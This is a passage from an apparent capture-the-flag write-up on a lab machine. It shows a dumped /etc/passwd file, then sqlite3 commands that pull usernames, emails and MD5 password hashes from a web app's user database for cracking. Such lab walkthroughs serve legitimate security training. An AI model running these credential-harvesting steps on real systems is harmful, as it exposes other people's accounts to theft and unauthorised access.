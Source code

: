 ```
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
gael:x:1000:1000:gael:/home/gael:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
app:x:1001:1001:,,,:/home/app:/bin/bash
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:997:997::/var/log/laurel:/bin/false
```

```
ls
app.py  instance  models  __pycache__  static  templates

cd instance/

ls
users.db

sqlite3 users.db .tables
model  user 
```

```
sqlite3 users.db "SELECT * FROM user"

1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
6|bmbmbm|bmbmbm@bmbmbm.bmbmbm|b64071f9b330181dd011ac2c09a09cda
7|omar|omar@omar.com|e10adc3949ba59abbe56e057f20f883e
8|asd|asd@asd.com|a8f5f167f44f4964e6c998dee827110c
9|admin|admin@admin.com|21232f297a57a5a743894a0e4a801fc3
10|adam|adam@adam.com|1d7c2923c1684726dc23d2901c4d8157
11|parrot|parrot@gmail.com|827ccb0eea8a706c4c34a16891f84e7b

sqlite3 users.db "SELECT * FROM model"
7bd7d97f-f197-4203-b63c-331c60406374|7bd7d97f-f197-4203-b63c-331c60406374.h5|7
bdfd1378-34f2-48f6-b484-cbf43132ef09|bdfd1378-34f2-48f6-b484-cbf43132ef09.h5|7
c63790da-9f67-4dec-aa60-80728eb12307|c63790da-9f67-4dec-aa60-80728eb12307.h5|10
ce81aa4d-cf7b-4fd9-99b9-58e5e92db795|ce81aa4d-cf7b-4fd9-99b9-58e5e92db795.h5|6
0f82a2e1-d2d7-4fd6-a217-68d22d66bbb4|0f82a2e1-d2d7-4fd6-a217-68d22d66bbb4.h5|8
```

If we use `hash-identifier` we can see that these are all `MD5` hashes:

`c99175974b6e192936d97224638a34f8`
